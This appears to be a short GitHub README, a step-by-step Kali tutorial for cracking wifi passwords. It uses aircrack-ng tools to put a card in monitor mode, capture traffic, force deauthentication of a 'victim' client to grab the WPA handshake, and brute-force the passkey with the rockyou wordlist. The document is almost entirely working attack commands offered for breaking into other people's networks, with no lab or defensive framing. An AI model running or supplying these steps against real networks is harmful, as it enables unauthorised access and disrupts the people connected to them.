 # Wifi attack

With this attack, you are able to get the passkey to many (unsafe) wifi networks. 
### 1. Switch mode from managed to monitor

```bash
airmon-ng start wlan0
```

To check if monitor mode is on:
(Name of Wi-Fi card could be changed wlan0 --> wlan0mon)

```bash
iwconfig
```

### 2. Show all of the traffic 

```bash 
airodump-ng wlan0

Show network specific traffic:
airodump-ng -d "AP_MAC" -w "DUMPFILE_NAME" -c "CHANNEL" wlan0
```

Keep airodump open

### 3. Send de-auth packets to victim client 

```bash
aireplay-ng -0 10 -a "AP_MAC" -c "VICTIM_MAC" wlan0
```

Might take a few tries (repeat command if necessary)
If successful, airodump will show ```WPA handshake: "AP_MAC"``` --> close airodump

### 4. Crack the password
This method uses the rockyou.txt wordlist to crack the password by brute force

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt "DUMPFILE_NAME.cap"
```


Tip:
Unpack .gz file: gzip -d "filename.gz"

#Kali
```
```